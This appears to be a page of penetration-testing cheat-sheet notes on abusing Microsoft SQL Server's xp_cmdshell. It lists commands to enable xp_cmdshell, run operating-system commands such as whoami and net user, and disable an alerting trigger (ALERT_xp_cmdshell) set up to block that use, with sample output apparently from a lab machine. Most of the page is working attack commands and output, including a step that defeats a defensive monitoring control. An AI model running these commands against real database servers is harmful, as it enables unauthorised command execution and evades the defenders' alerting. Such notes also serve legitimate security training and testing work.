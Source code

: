 `xp_cmdshell whoami`

Or

`EXEC xp_cmdshell 'net user'; -- priv` 

Or 

`EXEC master.dbo.xp_cmdshell 'cmd';` 

### Enable xp\_cmdshell

#### Short way:

```text
SQL> enable_xp_cmdshell
```

#### Long way:

```text
EXEC sp_configure 'show advanced options', 1; -- priv 
RECONFIGURE; -- priv 
EXEC sp_configure 'xp_cmdshell', 1; -- priv 
RECONFIGURE; -- priv 
or 
EXEC sp_configure 'show advanced options', 1; 
EXEC sp_configure reconfigure; 
EXEC sp_configure 'xp_cmdshell', 1; 
EXEC sp_configure reconfigure; 
```

### Check if it works

`xp_cmdshell 'dir C:\'` 

### Disable Trigger

If you get a error when we try to enable xp\_cmdshell on trigger, such as:

```text
Line 181: The transaction ended in the trigger. The batch has been aborted.
```

These triggers are a policy put in place to alert and block attempts to enable and use xp\_cmdshell. The problem is, as sa, we can disable these triggers.

`SQL> disable trigger ALERT_xp_cmdshell on all server`

And then enable xp\_cmdshell

```text
SQL> enable_xp_cmdshell
[*] INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> xp_cmdshell whoami
output                                                                             
------------------------------   
nt service\mssql$poo_public                                                        
NULL
```
